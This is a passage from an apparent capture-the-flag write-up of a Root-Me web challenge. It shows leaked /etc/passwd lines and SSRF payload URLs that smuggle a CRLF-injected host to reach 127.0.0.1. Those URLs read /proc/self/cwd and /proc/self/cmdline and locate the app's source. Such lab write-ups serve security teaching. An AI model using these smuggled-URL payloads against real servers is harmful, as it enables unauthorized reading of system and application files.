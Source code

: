 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```

One folder that I really like to check when I don't know where to go is the `/proc/self` folder, that gives us information about the current process (here, the NodeJS process). With the `cwd` directory, I can check if I can access the `index.html` page I've seen in the sources before and that looks like it won't be of any use.

```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/index.html
```

![](./img/proxifier-7.png)

The `/proc/self/cwd` directory effectively redirects us to the nodejs app folder. Let's load our `app.js` to see the value of `FLAG_PATH`.

```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/app.js
```

File not found. Wait... how can this file not be found? I'm sure I've made no typo, there is a problem. Maybe has the file been deleted and the js process still runs? Do I have to find a `mlocate.db` file that would indicate me where the file is? There are so many questions in my mind, but I still have to check `/proc/self/cmdline` to be sure, so I can see which command ran our nodejs server.

```bash
node/var/app/you_wont_guess_it.js
```

Heh, indeed I won't guess it, but now I know where you are! Too lazy to modify my payload, I will still use `/proc/self/cwd`, because the given path does not seem to be absolute and could be anywhere.

